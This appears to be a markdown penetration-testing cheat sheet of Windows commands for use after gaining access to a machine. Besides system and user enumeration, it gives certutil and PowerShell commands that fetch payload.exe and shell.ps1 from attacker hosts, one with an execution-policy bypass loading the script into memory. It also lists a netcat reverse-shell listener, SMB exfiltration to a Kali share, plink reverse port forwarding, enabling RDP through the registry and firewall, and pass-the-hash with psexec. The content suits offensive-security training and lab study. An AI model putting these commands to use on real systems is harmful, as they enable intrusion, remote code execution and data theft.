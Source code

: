 ```yaml
---
title: Windows Commands 
---
```


## Reverse Shell

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version
```cmd
systeminfo
```
Machine name
```cmd
hostname
```
What is my username?
```cmd
whoami
```
What users/localgroups are on the machine?
```cmd
net users
net localgroups
```
More info about a specific user. Check if user has privileges
```cmd
net user <user1>
```
User privilege
```cmd
whoami /priv
```
Disk Drive
```cmd
wmic logicaldisk get caption,description,providername`
```
Download file in the target machine
```cmd
certutil -urlcache -f http://[attackerIp]/payload.exe payload.exe
```
File and directory permission
```cmd
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```
wmic service filter
```cmd
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```
List of Service
```cmd
wmic service get Caption,StartName,State,pathname
```
List of Process
```cmd
wmic process get ProcessID,ExecutablePath
```
Network
```cmd
ipconfig /all
route print
arp -A
```
Port forward & connect form linux to SMB 
```cmd
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```cmd
winexe -U [user]%[password] //[IP] "cmd.exe"
```
> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration
```cmd
netsh firewall show state
netsh firewall show config
```
Evarioment Variable
```cmd
set
```
How well patched is the system?
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
Loading Powershell scripts directly in memory
```cmd
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```
Downlaod file with Powershell 
```cmd
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```
SMB Exfiltration
```cmd
kali_op1> impacket-smbserver -smb2support kali `pwd`
MD-Wind> net use \\10.10.14.14\kali
```
Information about process
```cmd
tasklist /v
```
Run a command as another user
```cmd
runas /user:<localmachinename>\administrator cmd
```
Process info
```cmd
wmic process get Caption,Commandline,Processid
```
Service info
```cmd
wmic service get name,status,startname,pathname
```
Process Owner 
```cmd
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```
Process List 
```cmd
powershell.exe Get-Process  | Select-Object Id,Name,Path
```
Current Connection
```cmd
netstat -lpno
```
Start and stop a service
```cmd
net start/stop servicename
```
Installed applications
```cmd
psinfo.exe -s
```
UAC is enable?
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Content of a file
```cmd
more file.txt
```
RDP from Kali
```cmd
rdesktop -u user -p password <IP> -g 95% 
```
Enable rdp
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Psexec

Password
```cmd
python3 psexec.py user:password@<ip>
```
```cmd
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```
